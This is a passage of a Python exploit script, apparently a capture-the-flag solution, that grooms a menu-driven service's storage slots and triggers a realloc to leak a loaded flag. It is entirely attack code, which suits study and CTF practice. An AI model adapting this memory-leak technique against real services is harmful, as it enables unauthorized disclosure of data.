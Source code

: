 ```python
        NEXT_SECTOR += 1
        erase_data(r, SLOT_NO + FAKE_FREE_NODES - 1)

    # Free each node previously allocated
    for i in range(FAKE_FREE_NODES - 1):
        erase_data(r, SLOT_NO + i)

    warn("NEXT_SECTOR: {}".format(NEXT_SECTOR))
    ALIGN_COUNT = 5 - NEXT_SECTOR % 8
    warn("Aligning to 5 (mod 8) using {} sectors...".format(ALIGN_COUNT))

    # Align the sectors to 5 mod 8
    for i in range(ALIGN_COUNT):
        store_data(r, SLOT_NO, b"A")
        SLOT_NO += 1

    # Load the flag
    info("Loading the flag...")
    load_flag(r)

    warn("Waiting for the write to be synced")
    sleep(30)

    # We trigger a realloc
    store_data(r, SLOT_NO, b"A"*GETLINE_INIT_SZ)
    SLOT_NO += 1

    warn(read_data(r, SLOT_NO - 1).decode())

    print(r.recvall(timeout=1))
    log.success(str(SLOT_NO + FAKE_FREE_NODES) + " slots used")
    r.close()

## Util functions ##
def load_flag(r):
    r.sendlineafter(b">", b"1")

def store_data(r, slot, data):
    r.sendlineafter(b">", b"2")
    r.sendlineafter(b">", str(slot).encode())
    r.sendlineafter(b">", data)

def read_data(r, slot):
    r.sendlineafter(b">", b"3")
    r.sendlineafter(b">", str(slot).encode())
    return r.recvline().strip()

def erase_data(r, slot):
    r.sendlineafter(b">", b"5")
    r.sendlineafter(b">", str(slot).encode())

# execute code
if __name__ == "__main__":
    main()
```
